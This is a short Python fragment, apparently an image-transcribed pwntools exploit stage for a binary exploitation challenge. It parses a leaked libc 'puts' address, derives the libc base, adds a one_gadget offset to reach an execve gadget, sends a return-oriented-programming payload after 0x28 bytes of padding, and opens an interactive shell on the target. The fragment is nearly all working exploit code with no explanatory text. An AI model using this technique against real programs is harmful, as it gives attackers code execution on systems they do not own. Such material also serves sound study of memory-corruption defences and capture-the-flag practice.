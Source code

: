 ```python

libc_puts_addr = u64(io.recvline().strip().ljust(8,b"\x00"))

log.success(f'LIBC LEAKED PUTS ADDR: {hex(libc_puts_addr)}')

libc_base_addr = libc_puts_addr - libc.sym.puts

log.success(f'LIBC BASE ADDR: {hex(libc_base_addr)}')

libc.address = libc_base_addr

one_gadget_offset = 0xef52b

execve_addr = libc_base_addr + one_gadget_offset

final_payload = flat({
    0x28: [
        pop_rbp_ret,
        landing_addr+0x150,
        execve_addr
           ]
    })

io.sendline(final_payload)


io.interactive()
```

